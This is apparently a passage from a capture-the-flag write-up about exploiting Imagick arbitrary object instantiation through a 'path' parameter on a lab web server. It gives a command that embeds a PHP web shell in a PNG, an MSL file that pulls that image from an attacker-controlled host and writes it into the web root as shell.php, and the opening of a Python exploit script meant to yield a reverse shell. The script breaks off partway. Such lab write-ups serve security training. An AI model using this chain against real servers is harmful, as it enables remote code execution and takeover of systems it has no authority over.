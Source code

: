 The "path" parameter was passed as an argument to Imagick. Imagick is vulnerable to arbitrary object instantiations. More details about this vulnerability are here: https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/

However, in summary, this is how the vulnerability was exploited:

1. A malicious `positive.png` file was created using `convert xc:red -set 'Copyright' '<?php system($_GET[\"cmd\"]); ?>' positive.png`
2. The argument `vid:msl:/tmp/php*` was passed to Imagick via the "path" parameter. This allowed the attacker to upload a file to the system via "multiform" even though no file upload functionality was available.
3. A malicious `exec.msl` file was provided to the server. This file contained a request to the malicious `positive.png` file, like so:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<image>
<read filename="http://{lhost}:{lport}/positive.png" />
<write filename="/var/www/html/intentions/public/shell.php" />
</image>
```

4. The `exec.msl` was automatically executed by the server (due to `vid:msl`). Thus it retrieved `positive.png` and saved it as `shell.php` in the web root.
5. The file `shell.php` contained shell execution code which the attacker could control with the GET parameter `cmd`.

The following script automated the process and generated a reverse shell on local port 1337.

```python
#!/usr/bin/env python3

import requests
import os
import http.server as SimpleHTTPServer
import socketserver as SocketServer
import random
import sys
import threading

if len(sys.argv) != 2:
	print(f"usage: {sys.argv[0]} <lhost>")
	print("Open a netcat listener on port 1337 before running")
	exit()

URL = "http://10.129.242.198" # change me
lhost = sys.argv[1]
lport = random.randint(9002,9999)

# Handle HTTP server in the background
class MyHandler(SimpleHTTPServer.SimpleHTTPRequestHandler):
	def do_GET(self):
		SimpleHTTPServer.SimpleHTTPRequestHandler.do_GET(self)

def MyServer(lhost, lport):
	httpd = SocketServer.TCPServer((lhost, lport), MyHandler)
	print(f"HTTP server started at {lhost}:{lport}")
	httpd.handle_request()

# Exploit
def generate_payload():
	png = os.popen("convert xc:red -set 'Copyright' '<?php system($_GET[\"cmd\"]); ?>' positive.png") 
	msl = f"""<?xml version="1.0" encoding="UTF-8"?>
<image>
<read filename="http://{lhost}:{lport}/positive.png" />
<write filename="/var/www/html/intentions/public/shell.php" />
```